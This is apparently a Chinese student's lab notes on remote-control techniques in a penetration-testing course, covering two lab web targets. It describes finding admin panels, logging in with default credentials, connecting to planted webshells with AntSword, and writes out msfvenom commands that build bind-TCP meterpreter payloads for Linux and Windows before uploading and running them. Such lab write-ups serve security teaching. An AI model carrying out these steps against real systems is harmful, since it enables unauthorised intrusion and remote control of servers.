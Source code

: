 ```yaml
---
title: 实验三--远程控制技术
category: 学习笔记
tags: [网络渗透测试技术、远程控制]
published: 2023-12-07
permalink: /archives/nyyrztx3/
---
```

## 实验目的

1、学会使用主流的远控软件,比如msf.学会使用webshell管理工具对一句话木马进行连接.

## 实验任务

1、进入web系统后台后写入一句话木马,然后用中国蚁剑进行连接

2、用中国蚁剑进行连接后,使用msf进行远控

## 实验步骤

### 广诚在线视频 10.100.0.99

御剑扫描，发现敏感文件

![image-20240714194140257](./images/202407142108134.png)

使用浏览器打开是乱码的，火狐自带修复工具，修复后即可找到管理页面和登录的账号密码

![image-20240714194153388](./images/202407142108135.png)

登录后台后，点击工具à模板管理àdefaultàHome，编辑index.tpl，在这里应该是要自己加上一句话木马的，但是环境是公共环境，已经有人添加了进去，所以我们是可以直接利用的

![image-20240714194158919](./images/202407142108136.png)

连接成功

![image-20240714194223962](./images/202407142108137.png)

生成msf正向马

msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=12345 -f elf > linuxshell27

![image-20240714194237714](./images/202407142108138.png)

然后使用蚁剑上传木马

 ![image-20240714194245731](./images/202407142108140.png)

启用蚁剑的虚拟终端，然后运行木马

![image-20240714194215936](./images/202407142108141.png)

在攻击机上启用msf去连接木马，但是不是root权限

![image-20240714194314505](./images/202407142108142.png)

### 广诚小学 10.100.0.49

登录网站，发现有一个administrator用户名，扫描目录找到后台登录

![image-20240714194323866](./images/202407142108143.png)

使用dirsearch找到后台登录地址

![image-20240714194328076](./images/202407142108144.png)

使用administrator/ administrator登录，然后再专题管理中对最下面的专题进行编辑

![image-20240714194332109](./images/202407142108145.png)

进入编辑页面看到已有马，所以直接，使用蚁剑进行连接

![image-20240714194335791](./images/202407142108146.png)

蚁剑连接成功

![image-20240714194339615](./images/202407142108147.png)

根据目录结构判断是Windows环境

![image-20240714194344535](./images/202407142108148.png)

使用msf生成Windows的正向木马

msfvenom -p windows/meterpreter/bind_tcp LPORT=12345 -f exe -o flash27.exe

 ![image-20240714194348490](./images/202407142108149.png)

利用蚁剑上传

![image-20240714194352291](./images/202407142108150.png)

然后运行木马

![image-20240714194400586](./images/202407142108151.png)

msf进行监听

![image-20240714194406423](./images/202407142108152.png)
